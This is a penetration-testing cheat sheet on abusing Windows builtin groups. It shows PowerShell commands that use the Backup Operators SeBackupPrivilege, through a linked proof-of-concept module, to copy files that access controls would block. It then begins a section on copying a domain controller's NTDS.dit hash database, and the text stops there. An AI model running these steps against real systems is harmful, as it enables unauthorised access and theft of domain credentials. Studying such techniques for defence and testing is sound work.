 ```


# Windows Group Privileges

        

## Windows Builtin Groups

        
    
Some of the builtin groups in active directory enviroment are the above

-    Backup Operators 	
-    Event Log Readers 	
-    DnsAdmins
-    Hyper-V Administrators 	
-    Print Operators 	
-    Server Operators


`PS C:\> whoami /groups`

### Backup Operators 

Membership of this group grants its members the SeBackup and SeRestore privileges. The SeBackupPrivilege allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the FILE_FLAG_BACKUP_SEMANTICS flag.


    [POC](https://github.com/giuliano108/SeBackupPrivilege)

#### Importing the module
```
    PS C:\> Import-Module .\SeBackupPrivilegeUtils.dll
    PS C:\> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
#### Verifying SeBackupPrivilege is Enabled
```
    PS C:\> whoami /priv

    SeBackupPrivilege             Back up files and directories  Disabled
    ...

    PS C:\> Get-SeBackupPrivilege

 ```   
#### Copying a Protected File
```
PS C:\> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' c:\path\to\new\file
```


#### Attacking a Domain Controller - Copying NTDS.dit


- This group also permits logging in locally to a domain controller. 

- The  NTDS.dit contains the NTLM hashes for all user and computer objects in the domain. 
- However, this file is locked 

- we can use the Windows diskshadow utility to create a shadow copy of the C drive and expose it as E drive

```